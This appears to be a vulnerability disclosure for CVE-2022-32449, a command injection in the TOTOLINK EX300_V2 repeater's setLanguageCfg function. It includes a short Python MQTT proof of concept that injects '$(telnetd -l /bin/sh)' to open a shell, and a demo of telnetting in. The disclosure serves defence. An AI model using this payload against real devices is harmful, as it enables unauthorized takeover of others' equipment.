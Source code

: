 # CVE-ID

[CVE-2022-32449](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32449 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32449")

# Information

**Vendor of the products:**    TOTOLINK

**Vendor's website:**    [http://www.totolink.cn](http://www.totolink.cn "http://www.totolink.cn")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    [TOTOLINK EX300_V2](http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55 "http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55")

**Affected firmware version:**  V4.0.3c.7484

**Firmware download address:**  [http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip](http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip "http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip")

# Overview

`TOTOLINK EX300_V2 V4.0.3c.7484` has a command injection vulnerability detected at function `setLanguageCfg`. Attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# Product parameters

`TOTOLINK EX300_V2` is a Wi-Fi repeater made in China.

![image](./pic/0.jpg)

# Vulnerability details

The vulnerability is detected at `/bin/cste_modules/global.so`.

In the function `setLanguageCfg`, the content obtained by program through parameter `langType` given by `MQTT` data packet is passed to variable `Var`. Then, the variable `Var` is formatted into `v9` through the function `sprintf` without any check. Finally, `v9` is passed as an argument to the function `CsteSystem` which can execute system commands.

![image](./pic/1.jpg)

Above all, attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# POC

```python
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.254", 1883, 60)
client.publish("totolink/router/setLanguageCfg", '{"langType": "$(telnetd -l /bin/sh)"}')
```

# Attack Demo

At first, we run the above script to exploit the vulnerability.

Then, we scan ports and dectect that the port `23` which represents `Telnet service` has been opened.

![image](./pic/2.jpg)

Finally, we telnet into the Wi-Fi repeater through port `23` and control it successfully.

![image](./pic/3.jpg)
